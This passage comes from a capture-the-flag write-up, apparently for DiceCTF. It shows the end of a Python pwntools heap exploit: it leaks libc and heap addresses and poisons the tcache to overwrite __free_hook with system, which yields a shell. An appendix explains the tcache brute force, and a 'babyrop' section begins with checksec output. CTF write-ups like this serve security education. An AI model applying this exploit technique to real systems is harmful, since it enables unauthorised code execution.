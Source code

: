 ```python



libc.address = u64(p.recv(6).ljust(8, "\x00")) - libc.sym["setbuf"]

print("libc", hex(libc.address))


p.recv(1)


heap = u32(p.recvline()[:-1].ljust(4, "\x00")) - 0x260

print("heap", hex(heap))


add(1, "A"*16 + p64(libc.sym["__free_hook"]))
add(1, "AAAA")

add(2, p64(libc.sym["system"]))


add(1, "/bin/sh")


flip()

p.interactive()
```

Flag: `dice{some_dance_to_remember_some_dance_to_forget_2.27_checks_aff239e1a52cf55cd85c9c16}`


### Appendix
Some may be confused as to why writing a `0x404020` to the tcache next was possible to poison the tcache, as their heap addresses were 6 bytes. So, writing only 3 bytes would make for a bad chunk pointer and crash the program.

However, the heap addresses on remote were 3-4 bytes. I believe patchelf with the libc and linker also caused the heap addresses to be 3-4 bytes, but using LD_PRELOAD would keep the 6 byte addresses.

Even with a 6 byte heap, the challenge was solvable with a 4 bit brute force. You can write a `\x60\x00` to the chunk after flipping, which will overwrite the last two bytes of the `fwd` of the double freed chunk. This will set you up for a 1/16th chance tcache overwrite to fully poison the freelist with `0x404020`.


## babyrop
Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
